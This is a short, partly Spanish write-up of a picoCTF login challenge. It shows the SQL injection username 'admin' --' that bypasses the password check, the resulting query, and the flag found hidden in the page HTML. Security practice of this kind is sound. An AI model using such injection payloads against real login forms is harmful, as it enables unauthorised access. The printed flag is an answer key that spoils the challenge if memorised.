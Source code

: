 Can you login to this website?Try to login [here](http://saturn.picoctf.net:55605/).

Hints:
1. `admin` is the user you want to login as.

## Solución 1:
Realizando una inyección SQL sencilla la cual es meter "admin' --" en el usuario y se puede dejar vacía la contraseña
```
username: admin' --
password: 
SQL query: SELECT * FROM users WHERE name='admin' --' AND password=''

# Logged in! But can you see the flag, it is in plainsight.

	Al observar lo que se dice, decido inspeccionar el código y la flag se encontraba oculta en el html:
	</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}</p>
	
	picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}
```